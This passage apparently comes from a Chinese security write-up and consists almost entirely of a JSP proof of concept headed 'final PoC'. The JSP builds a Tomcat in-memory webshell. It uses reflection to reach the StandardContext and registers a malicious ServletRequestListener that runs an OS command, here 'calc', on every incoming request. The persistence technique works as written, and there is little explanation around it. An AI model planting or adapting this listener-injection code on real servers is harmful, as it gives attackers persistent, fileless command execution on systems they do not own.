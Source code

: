 最终poc

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.Arrays" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<html>
<head>
    <title>Title</title>
</head>
<body>

<%!
  public class Shell_Listener implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent sre) {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public void requestDestroyed(ServletRequestEvent sre) {
    }
  }
%>

<%
  ServletContext servletContext =  request.getServletContext();
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

  Shell_Listener shellListener = new Shell_Listener();
  standardContext.addApplicationEventListener(shellListener);
%>

</body>
</html>

```
